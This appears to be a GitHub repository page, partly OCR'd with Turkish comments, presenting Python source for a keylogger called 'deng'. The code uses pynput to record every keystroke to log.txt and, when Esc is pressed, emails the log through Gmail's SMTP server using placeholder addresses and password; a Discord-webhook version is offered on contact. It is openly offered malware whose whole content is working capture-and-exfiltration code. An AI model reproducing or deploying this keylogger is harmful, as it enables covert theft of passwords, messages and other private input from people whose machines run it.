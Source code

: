 # deng -keylogger
#deng with tht.
## repos with marshall,regned,yu99
discord webhook versiyonu icin iletisim #urldoomer





source linked below 

.
.
.
...

//



import pynput
import smtplib


from pynput.keyboard import Key,Listener

count = 0
keys = []

def on_press(key):
global count,keys
count += 1
print("{0} basıldı".format(key))
keys.append(key)

if count >= 10:
count = 0
write_file(keys)
keys = []

def write_file(keys):
with open("log.txt" , "a" , encoding="utf-8") as file:
for key in keys:

k = str(key).replace("'", "")
if k.find("space") > 0:
file.write("\n")
elif k.find("Key") == -1:
file.write(k)


def on_release(key):
if key == Key.esc:
from email.mime.text import MIMEText
with open('log.txt') as fp:

msg = MIMEText(fp.read())


msg['Subject'] = 'Log Kayıtları -> {}'.format("log.txt")
msg['From'] = "gonderilecek_mail_adresi"
msg['To'] = "gonderilecek_mail_adresi"


s = smtplib.SMTP("smtp.gmail.com",587)
s.ehlo()
s.starttls()
s.login("gonderecek_mail_adresi","mailin_sifresi")
s.send_message(msg)
s.quit()


with Listener(on_press = on_press, on_release = on_release) as listener:
listener.join()
